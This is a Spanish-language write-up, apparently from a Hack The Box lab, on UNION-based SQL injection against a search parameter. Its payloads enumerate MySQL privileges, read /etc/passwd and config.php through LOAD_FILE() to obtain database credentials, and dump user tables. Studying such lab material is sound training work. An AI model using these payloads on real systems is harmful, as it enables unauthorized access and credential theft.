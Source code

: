 # Guía práctica: SQL Injection para enumeración y lectura de archivos (HTB)

##  Introducción

Esta guía documenta el proceso de explotación de una **inyección SQL** [SQLi](./SQLi.md) para:

- Confirmar la vulnerabilidad.
- Enumerar permisos del usuario `root` en MySQL.
- Leer archivos del sistema como `/etc/passwd`, `search.php` y `config.php`.
- Encontrar credenciales sensibles.

Todas las pruebas se realizaron en la URL:

```url
http://83.136.255.10:58278/search.php?port_code=
````

---

## 1. Confirmación de la vulnerabilidad

**Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un [[UNION SELECT]].

```sql
' UNION SELECT 1,2,3,4-- -
````

**Explicación:**

Si la inyección tiene éxito, la página mostrará los valores `2`, `3` y `4` en la tabla. Esto confirma que:

- La aplicación concatena directamente el valor en una consulta SQL.
    
- El número de columnas es 4.
    
- Podemos continuar con otras inyecciones más complejas.
    

---

## 2. Comprobar privilegios del usuario `root` en MySQL

### 2.1. Comprobar si tiene el privilegio `SUPER`

```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Explicación:**

- `super_priv` = 'Y' indica que el usuario puede realizar acciones avanzadas en MySQL.
    
- Esto puede incluir cargar archivos o modificar configuraciones.
    

---

### 2.2. Enumerar todos los privilegios de `root@localhost`

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**Explicación:**

Esta consulta muestra todos los privilegios otorgados explícitamente a `root@localhost`, por ejemplo:

```
SELECT, INSERT, UPDATE, FILE, CREATE
```

Si el usuario tiene `FILE`, puedes leer archivos con `LOAD_FILE()`.

---

## 3. Leer archivos del sistema con `LOAD_FILE()`

### 3.1. Leer `/etc/passwd`

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Explicación:**

Nos permite confirmar acceso al sistema de archivos. Muestra usuarios del sistema Linux.

---

### 3.2. Leer el archivo fuente `search.php`

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

**Explicación:**

Este archivo es la propia aplicación vulnerable. Puede revelar:

- Cómo se construye la query SQL.
    
- Si hay includes/requires a otros archivos.
    

---

### 3.3. Leer `config.php` para obtener credenciales

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

**Explicación:**

Este archivo suele contener las **credenciales de conexión a MySQL**, como:

```php
$db_user = "root";
$db_pass = "toor123";
```

Esto te permite conectarte directamente a la base de datos desde consola o herramientas como `sqlmap`.

---

## Otras queries útiles para SQLi (bonus)

### Obtener versión de MySQL

```sql
' UNION SELECT 1, @@version, 3, 4-- -
```

### Listar todas las bases de datos

```sql
' UNION SELECT 1, schema_name, 3, 4 FROM information_schema.schemata-- -
```

### Listar tablas de una base de datos

```sql
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
```

### Listar columnas de una tabla

```sql
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```

### Extraer usuarios de una tabla `users`

```sql
' UNION SELECT 1, username, password, 4 FROM users-- -
```

---

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
3. ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
4. ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
5. ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
6. ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

---

## Conclusión

Este tipo de explotación SQLi permite:

- Confirmar la vulnerabilidad.
    
- Enumerar privilegios y configuraciones internas.
    
- Robar archivos del sistema.
    
- Escalar a control completo de la base de datos.
    

Una vez que obtienes credenciales, puedes avanzar hacia una **conexión directa**, pivotar o buscar vulnerabilidades adicionales.

---
